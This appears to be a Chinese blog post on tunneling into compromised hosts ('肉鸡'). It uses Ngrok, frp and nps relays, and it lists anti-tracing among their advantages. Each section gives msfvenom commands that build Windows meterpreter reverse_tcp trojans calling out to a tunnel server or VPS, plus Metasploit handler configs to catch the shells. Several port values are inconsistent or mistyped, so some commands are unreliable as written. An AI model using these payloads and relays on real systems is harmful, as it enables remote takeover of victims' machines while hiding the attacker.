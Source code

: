 ```yaml
---

title: 内网穿透实验
date: 2024-03-13 23:23 +0800
categories: [内网] 
tags: [穿透,通信]
img_path: /img/Intranet/
---
```


旨在代理连接肉鸡后实现本地渗透肉鸡网络架构。

优点：穿透加密数据，中间平台，防追踪，解决网络问题

vps_ip : 47.xxx.xxx.xxx

攻击机_ip : 192.168.207.140

靶机_ip ： 192.168.31.220

~~注：校园网可能会导致实验失败！~~

## Ngrok

网址：https://www.ngrok.cc

#### 开通Ngork隧道

首先，我们需要在Ngork中购买一个隧道：

![截图](171a0a90c7b9823a0a0f4eabf66b090b.png)

此处，我们开通后，当我们访问free.idcfengye.com:10033这个url时候，该服务器就会将我们的数据转发到本地的2222端口上。

因此，在后续的使用渗透过程中，我们可以将攻击机穿透到这个公网服务器上。然后创建木马，让靶机将数据发送到`free.idcfengye.com:100332`上，然后该服务器再将10032端口上的数据转发到攻击机的2222端口，此时我们在监听2222端口即可接受靶机的数据。

### 内网攻击机连接服务器

使用命令：

```cmd
./sunny clientid 【ID】
```

![截图](83f17cc477b9cf117e547835bc042e74.png)

### 渗透过程

- 创建木马

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.idcfengye.com LPORT=10033 -f exe -o yuan.exe
```

注意这里的lhost和lprot ==》 一定是要将数据传到隧道服务器的10033上，才能转到攻击机上

- 开启msfconsole监听

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 2222
run
```

![截图](d74953b00332e66bf52238631d6c9fa2.png)

## Frp

与ngrok同理，我们需要上线攻击机的msf。

### 攻击机映射到服务器端

准备好一台vps，然后上传frp到服务器段，并使得common下的配置如下：

```bash
[common]
server_addr = 127.0.0.1
server_port = 7000  
```

然后启动服务器端：

```bash
./frps -c ./frps.ini
```

将frp上传到攻击机上，并作出如下配置：

```sass
[common]
server_addr = 【vps ip】
server_port = 7000        #frpc工作端口，必须和上面frps保持一致
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 5555          #转发给本机的5555
remote_port = 6000  
```
{: file='frp配置'}

![截图](b90f84daa2239508a380520ad30e64ef.png)

### 创建木马，并连接shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=【vps_ip】 lport=6000 -f exe -o frp.exe
```

msfconsole:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 5555b
exploit
```

![截图](40b690ffcf3c1311f439058294b0aa9d.png)

## nps

nps 是一款图形化界面的改进版frp，旨在方便用户更加容易配置以及具备更多的功能！

### 服务器端

- 安装并启动nps：

```bash
./nps install
./nps
```

随后访问： http://vps_ip:8080

账户密码： admin/123

![截图](3f3774eff3a280c6a634248e4cf11053.png)

- 创建客户端，生成密匙

![截图](4c4e5f468d77408b5cf12f024b1272a9.png)

- 添加协议隧道，绑定指向

![截图](980b077227bc2b3aa93614ad9b99e8ad.png)

![截图](eef42a58ca429be9390d445b6edad698.png)

### 客户端连接

```bash
./npc -server=vps_ip:8024 -vkey=  #创建客户端后自动生成密钥
```

8024端口是该服务默认的连接映射端口！

![截图](fc8860e76ad4282e8cefadfda78ddb21.png)

### 生成木马并攻击

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=vps_ip lport=6006 -f exe -o frp.exe
```

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 2223
exploit

```
